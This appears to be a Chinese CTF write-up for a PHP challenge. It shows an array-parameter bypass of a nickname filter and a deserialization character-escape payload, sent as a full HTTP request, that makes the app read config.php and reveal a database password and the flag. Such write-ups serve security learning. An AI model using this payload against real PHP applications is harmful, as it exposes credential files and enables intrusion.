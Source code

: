 ## 知识点：

1. php反序列化字符逃逸
2. 参数传递数组绕过字符串检测
3. 源代码下载



#参数传递数组绕过字符串检测

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

nickname参数设置为数组nickname[] 上面过滤就没有用处了
```

#php反序列化字符逃逸

";}s:5:"phone";s:10:"config.php";}

post:

```php
POST /update.php HTTP/1.1
Host: 24e688bf-6095-42b3-bd11-9b976e263587.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1168357551517354723468063433
Content-Length: 1085
Origin: http://24e688bf-6095-42b3-bd11-9b976e263587.node4.buuoj.cn:81
Connection: close
Referer: http://24e688bf-6095-42b3-bd11-9b976e263587.node4.buuoj.cn:81/update.php
Cookie: PHPSESSID=f4e12ec5c00804be375bd1c5a89d8781
Upgrade-Insecure-Requests: 1

-----------------------------1168357551517354723468063433
Content-Disposition: form-data; name="phone"

18888888888
-----------------------------1168357551517354723468063433
Content-Disposition: form-data; name="email"

aaaa@qq.caa
-----------------------------1168357551517354723468063433
Content-Disposition: form-data; name="nickname[]"

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
-----------------------------1168357551517354723468063433
Content-Disposition: form-data; name="photo"; filename="å±å¹æªå¾ 2021-08-09 175453.png"
Content-Type: image/png

PNG

```

profile.php 查看图片的base64 然后解码 拿到flag

<?php
$config['hostname'] = '127.0.0.1';
$config['username'] = 'root';
$config['password'] = 'qwertyuiop';
$config['database'] = 'challenges';
$flag = 'flag{dd1de16e-7589-430f-9d0f-d1268de7264a}';
?>
